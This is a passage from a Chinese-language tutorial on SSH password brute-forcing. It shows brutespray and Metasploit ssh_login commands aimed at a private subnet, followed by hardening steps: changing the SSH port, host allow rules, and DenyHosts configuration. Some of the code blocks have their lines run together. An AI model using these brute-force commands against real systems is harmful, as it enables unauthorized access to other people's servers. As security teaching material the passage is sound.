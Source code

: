 

如果不是本地安装，则使用patator执行即可。

**（4）brutespray暴力破解ssh密码**



```
nmap -A-p 22 -v 192.168.17.0/24 -oX 22.xmlpythonbrutespray.py --file 22.xml -u root -p toor --threads 5 --hosts 5
```



**（5）msf暴力破解ssh密码**



```
use auxiliary/scanner/ssh/ssh_loginset rhosts192.168.17.147setPASS_FILE /root/pass.txtsetUSER_FILE /root/user.txtrun
```



### 九、 SSH暴力破解安全防范

1.修改/etc/ssh/sshd_config默认端口为其它端口。例如设置端口为2232，则port=2232

2.在/etc/hosts.allow中设置允许的IP访问，例如sshd:192.168.17.144:allow

3.使用DenyHosts软件来设置，其下载地址：

<https://sourceforge.net/projects/denyhosts/files/denyhosts/2.6/DenyHosts-2.6.tar.gz/download>

**（1）安装cdDenyHosts**



```
# tar-zxvf DenyHosts-2.6.tar.gz # cdDenyHosts-2.6 # pythonsetup.py install
```



默认是安装到/usr/share/denyhosts目录的。

**（2）配置cdDenyHosts**



```
# cd/usr/share/denyhosts/ # cpdenyhosts.cfg-dist denyhosts.cfg # videnyhosts.cfg
```



PURGE_DENY= 50m #过多久后清除已阻止IP

HOSTS_DENY= /etc/hosts.deny #将阻止IP写入到hosts.deny

BLOCK_SERVICE= sshd #阻止服务名

DENY_THRESHOLD_INVALID= 1 #允许无效用户登录失败的次数

DENY_THRESHOLD_VALID= 10 #允许普通用户登录失败的次数

DENY_THRESHOLD_ROOT= 5 #允许root登录失败的次数
